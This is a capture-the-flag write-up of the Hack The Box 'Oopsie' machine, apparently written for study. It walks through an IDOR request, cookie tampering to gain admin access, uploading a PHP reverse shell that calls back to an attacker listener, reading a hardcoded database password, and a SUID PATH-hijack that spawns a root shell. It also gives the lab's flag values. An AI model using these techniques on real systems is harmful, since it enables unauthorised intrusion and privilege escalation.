

# Oopsie


#Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Tasks](#tasks)
- [User Flag Walkthrough](#user-flag-walkthrough)
- [Root Flag Walkthrough](#root-flag-walkthrough)
- [Linux PATH Binary Hijacking](#linux-path-binary-hijacking)
- [Lab Insights](#lab-insights)
- [Attack Timeline](#attack-timeline)

# Context

Lab link: [https://app.hackthebox.com/machines/Oopsie](https://app.hackthebox.com/machines/Oopsie)

Suggested tools: Burp Suite, Browser DevTools/Storage inspector, `gobuster`, `grep`, `nc`, `su`, `find`, `ls`, `cat`, `chmod`

# Scenario

Oopsie is a very easy Linux machine that highlights the impact of information disclosure and broken access control in web applications. Website enumeration reveals a guest login with manipulatable cookies and user IDs allowing escalation to an admin role and access to a file upload feature. A PHP reverse shell is then uploaded to gain an initial foothold. Further enumeration exposes hardcoded credentials enabling lateral movement to another user. Finally, privilege escalation is achieved by abusing a misconfigured SUID binary through PATH hijacking.

# Tasks

**Q1**- With what kind of tool can intercept web traffic?

Answer: Proxy

Reason: A proxy intercepts Hypertext Transfer Protocol (HTTP) and Hypertext Transfer Protocol Secure (HTTPS) traffic by sitting between the browser and the server, forwarding requests and responses while allowing inspection and modification. In offensive security, `Burp Suite` is a standard tool because it captures `HTTP` and `HTTPS` traffic and allows modification of cookies, headers, and parameters. This is the type of tool used to tamper with the user ID and session cookie during Oopsie's access control bypass.

**Q2**- What is the path to the directory on the webserver that returns a login page?

Answer: `/cdn-cgi/login`

Reason: Burp Suite is a proxy tool that intercepts web traffic by sitting between the browser and the server, recording every request and response passively (T1557 - Adversary-in-the-Middle, used here in a defensive/passive capture context).

Browsing to the target automatically revealed the login page at `/cdn-cgi/login/` with no active spidering required. The server auto-appended `?guest=true` to the URL, signaling a pre-authenticated guest session that required no credentials. This behavior is a clear indicator of Broken Access Control (BAC), where the application exposes authenticated functionality to unauthenticated users by relying solely on a client-controlled query parameter to determine session privilege. This maps to MITRE ATT&CK T1078 (Valid Accounts) in the sense that the application itself grants access without verifying identity, effectively treating any visitor as a trusted guest. Burp Suite also captured `index.php` and `script.js` as the browser fetched page resources during the initial load.

**Q3**- What can be modified in Firefox to get access to the upload page?

Answer: Cookie

Reason: When logged in as guest, the server issues a session cookie containing fields such as user ID and role. Inspecting this cookie in Burp Suite or Firefox's storage inspector, then modifying the role to `admin` and updating the user ID to match an admin account, tricks the server into granting access to restricted pages like the upload page. This exploits the Broken Access Control (BAC) weakness, as the server trusts client-supplied cookie values without server-side validation (T1078 - Valid Accounts).

**Q4**- What is the access ID of the admin user?

Answer: `34322`

Reason: Navigating to the accounts page as a guest user revealed the guest account's Access ID. By sending the request to Burp Repeater and changing the `id` parameter in the URL from `2` to `1`, the server returned the admin account details without performing any authorization check, disclosing the admin's Access ID: `34322`.

This behavior is a classic example of Insecure Direct Object Reference (IDOR), mapped to MITRE ATT&CK technique T1078 (Valid Accounts) in context of unauthorized access through predictable resource identifiers. The application failed to verify whether the authenticated guest session had the privilege to access the resource associated with `id=1`, allowing horizontal privilege escalation to a higher-privileged account.

```jsx
GET /accounts?id=1 HTTP/1.1
Host: target.htb
Cookie: session=<guest_session_token>
```

**Q5**- On uploading a file, what directory does that file appear in on the server?

Answer: `/uploads`

Reason: With admin cookie access confirmed, a test file was uploaded via the branding upload form. To locate where files land on the server, `gobuster` was used to brute-force directories against the web server using a common wordlist. The scan confirmed `/uploads/` exists and returns a `301` redirect, identifying it as the upload destination.

Directory brute-forcing is a reconnaissance technique mapped to MITRE ATT&CK technique T1083 (File and Directory Discovery). The `301` response code indicates the server performs a permanent redirect for that path, which confirms the directory is active and accessible. This is a critical pivot point: knowing the upload directory allows a subsequent file upload attack, such as uploading a web shell, to be triggered by directly requesting the uploaded file at its known path under `/uploads/`.

```bash
gobuster dir -u http://10.129.5.250 -w /usr/share/wordlists/dirb/common.txt

===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.5.250
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.htaccess            (Status: 403) [Size: 277]
.hta                 (Status: 403) [Size: 277]
.htpasswd            (Status: 403) [Size: 277]
css                  (Status: 301) [Size: 310] [--> http://10.129.5.250/css/]
fonts                (Status: 301) [Size: 312] [--> http://10.129.5.250/fonts/]
images               (Status: 301) [Size: 313] [--> http://10.129.5.250/images/]
index.php            (Status: 200) [Size: 10932]
js                   (Status: 301) [Size: 309] [--> http://10.129.5.250/js/]
server-status        (Status: 403) [Size: 277]
themes               (Status: 301) [Size: 313] [--> http://10.129.5.250/themes/]
uploads              (Status: 301) [Size: 314] [--> http://10.129.5.250/uploads/]
Progress: 4613 / 4613 (100.00%)
```

**Q6**- What is the file that contains the password that is shared with the `robert` user?

Answer: `db.php`

Reason: Navigating to the web application directory as `www-data` and running `grep -ri "password" .` recursively searched all files for credential strings. The file `db.php` contained a hardcoded MySQL connection with the password for the `robert` user stored in plaintext.

Hardcoded credentials in source files represent a significant security failure mapped to MITRE ATT&CK T1552.001 (Credentials in Files). The database connection string exposed the username `robert` and password `M3g4C0rpUs3r!` targeting a local MySQL database named `garage`. Since password reuse is common, these credentials were worth testing against the system account for `robert` directly.

```bash
grep -ri "password" .
./cdn-cgi/login/db.php:$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

**Q7**- What executable is run with the option "`-group bugtracker`" to identify all files owned by the bugtracker group?

Answer: `find`

Reason: To identify all files owned by the `bugtracker` group, the `find` command was run with the `-group` flag to search the entire filesystem for matching files, suppressing permission errors with `2>/dev/null`.

This is a standard privilege escalation enumeration step mapped to MITRE ATT&CK T1083 (File and Directory Discovery). Identifying files assigned to a specific group helps reveal binaries or scripts that members of that group can execute, potentially with elevated privileges such as the Set User ID (SUID) bit set.

```bash
find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```

**Q8**- Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?

Answer: `root`

Reason: The `bugtracker` binary has the Set User ID (SUID) bit set, visible as `rws` in the owner execute position of `ls -lah`. This means regardless of which user runs it, the process executes with the privileges of the file owner, which is `root`.

The SUID bit is a Unix permission flag that causes an executable to run as its owner rather than the invoking user. When set on a root-owned binary, any user who can execute that file gains an effective user ID (UID) of `0` for the duration of that process. This is a well-known privilege escalation surface mapped to MITRE ATT&CK T1548.001 (Setuid and Setgid). The next step is to examine what `bugtracker` does internally, particularly whether it calls any external commands in an unsafe way that can be hijacked.

```bash
ls -lah /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8.6K Jan 25  2020 /usr/bin/bugtracker
```

**Q9**- What SUID stands for?

Answer: Set owner User ID

Reason: `SUID` stands for Set Owner User ID — a Linux permission bit that forces an executable to run as its owner rather than the invoking user.

**Q10**- What is the name of the executable being called in an insecure manner?

Answer: `cat`

Reason: Running `/usr/bin/bugtracker` reveals it calls `cat` by bare name rather than absolute path (`/bin/cat`). Linux resolves bare command names by searching directories listed in `$PATH` in order, meaning a malicious `cat` binary placed earlier in `$PATH` will be executed instead. Since `bugtracker` has the SUID bit set and is owned by `root`, the fake `cat` will run with root privileges, enabling full privilege escalation via `$PATH` hijacking, mapped to MITRE ATT&CK T1574.007 (Path Interception by PATH Environment Variable).

The output below confirms the vulnerable behavior: `bugtracker` accepts a Bug ID and constructs a path under `/root/reports/`, then passes it directly to `cat` without using an absolute path. This is the injection point for the hijack.

```bash
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 1234
---------------
cat: /root/reports/1234: No such file or directory # custom cat binary, exposed to $PATH hijacking
```

With `bugtracker` calling `cat` by bare name, `$PATH` hijacking was used to escalate to `root`. A fake `cat` script was placed in `/tmp` that spawns `/bin/bash`, then `/tmp` was prepended to `$PATH`. Running `bugtracker` triggered the fake `cat` as `root` via the SUID bit, dropping a root shell. The real `/bin/cat` was needed to read the flag directly, since `cat` in `$PATH` still resolved to the fake script.

This technique works because the SUID binary inherits the invoking user's environment, including the modified `$PATH`, and resolves bare command names against it at runtime. The fake `cat` executes with an effective UID of `0`, spawning a `bash` process that retains root privileges.

```bash
export PATH=/tmp:$PATH
echo '/bin/bash' > /tmp/cat
chmod +x /tmp/cat
/usr/bin/bugtracker
/bin/cat /root/root.txt
```

# User Flag Walkthrough

1. Opened Burp Suite proxy and browsed the target, passively capturing `/cdn-cgi/login/` and the auto-issued guest session via `?guest=true`.
2. Sent the accounts page request to Repeater and changed `id=2` to `id=1`, disclosing the admin's Access ID: `34322`. This is an Insecure Direct Object Reference (IDOR) vulnerability mapped to MITRE ATT&CK T1078 (Valid Accounts), where the server performed no authorization check on the requested resource.
3. Edited browser cookies in Firefox DevTools (Storage tab), changing `user=2233; role=guest` to `user=34322; role=admin`, bypassing access control and unlocking the upload page. This constitutes client-side authorization bypass, mapped to T1565 (Data Manipulation).
4. Ran `gobuster` to confirm `/uploads/` as the upload destination, with the server returning a `301` redirect for that path.
5. Copied `/usr/share/webshells/php/php-reverse-shell.php`, set `$ip` and `$port` to the attacker's values, and uploaded it via the branding uploader. Unrestricted file upload maps to MITRE ATT&CK T1505.003 (Web Shell).
6. Started `nc -lvnp 1234`, then browsed to `http://10[.]129[.]5[.]250/uploads/test.php`, triggering the shell and returning a session as `www-data`.
7. Stabilised the shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'` and `export TERM=xterm`.
8. Read the user flag: `cat /home/robert/user.txt` returned `f2c74ee8db7983851ab2a96a44eb7981`.

# Root Flag Walkthrough

1. Switched to `robert` with `su robert` using credentials recovered from `db.php`: `M3g4C0rpUs3r!`.
2. Ran `find / -group bugtracker 2>/dev/null` and found `/usr/bin/bugtracker` with the SUID bit set (`rwsr-xr--`, owner: `root`).
3. Ran `/usr/bin/bugtracker` and observed it calls `cat` by bare name without an absolute path, confirming the `$PATH` hijacking surface mapped to MITRE ATT&CK T1574.007 (Path Interception by PATH Environment Variable).
4. Prepended `/tmp` to `$PATH` so it takes priority during command resolution: `export PATH=/tmp:$PATH`.
5. Created a fake `cat` script in `/tmp` that spawns `/bin/bash`: `echo '/bin/bash' > /tmp/cat && chmod +x /tmp/cat`.
6. Ran `/usr/bin/bugtracker`, which executed the fake `cat` as `root` via the SUID bit, dropping a root shell with an effective UID of `0`.
7. Read the root flag using the real binary directly to bypass the hijacked `$PATH`: `/bin/cat /root/root.txt`.

# Linux PATH Binary Hijacking

PATH binary hijacking is a privilege escalation technique that exploits SUID binaries which invoke system commands by bare name rather than absolute path. When a binary has the SUID bit set and is owned by `root`, it executes with an effective UID of `0` regardless of the invoking user. If that binary calls a command such as `cat`, `find`, or `mail` without specifying its full path such as `/bin/cat`, the operating system resolves the command by searching each directory listed in `$PATH` from left to right and executing the first match found.

An attacker with write access to any directory can exploit this by prepending a controlled directory, typically `/tmp`, to `$PATH` using `export PATH=/tmp:$PATH`. A malicious script is then placed in that directory using the same name as the command the SUID binary calls. When the SUID binary runs and invokes the bare command name, the operating system resolves it to the fake script instead of the legitimate system binary. Because the SUID binary executes with root privileges and inherits the attacker's environment including the modified `$PATH`, the fake script runs as `root`, commonly spawning a privileged shell with `/bin/bash`.

The hijacked `$PATH` remains active for the duration of the shell session, so any further use of the spoofed command name will resolve to the fake script. Reading files or running legitimate tools requires invoking them by absolute path to bypass the hijacked resolution order.

This technique is mapped to MITRE ATT&CK T1574.007 (Path Interception by PATH Environment Variable) and is detectable through process execution auditing, particularly when a privileged process spawns a shell from an unexpected directory such as `/tmp`.

```bash
export PATH=/tmp:$PATH
echo '/bin/bash' > /tmp/cat
chmod +x /tmp/cat
/usr/bin/<suid_binary>
/bin/cat /root/root.txt
```

# Lab Insights

- Web applications leaking session parameters (?guest=true) in URLs hand attackers a pre-authenticated entry point before any credential is entered.
- Cookies are client-controlled — any role or ID stored client-side can be tampered with if the server doesn't validate against a server-side session store.
- IDOR (Insecure Direct Object Reference) on numeric parameters (id=1, id=2) exposes all records when the server fails to check whether the requester is authorised to see them.
- File upload features without MIME-type or extension validation are direct RCE vectors — uploading a PHP shell and browsing to it is trivially simple.
- Hardcoded credentials in source code (db.php) are a lateral movement gift — developers treating source as a secrets store is endemic and highly exploitable.
- SUID binaries that call external commands by bare name rather than absolute path are exploitable via PATH hijacking — the binary's elevated privileges transfer to whatever binary is resolved first in $PATH.
- Defence in depth matters: each finding here was low severity in isolation, but chained together they produced full root compromise from an unauthenticated starting point.

# Attack Timeline


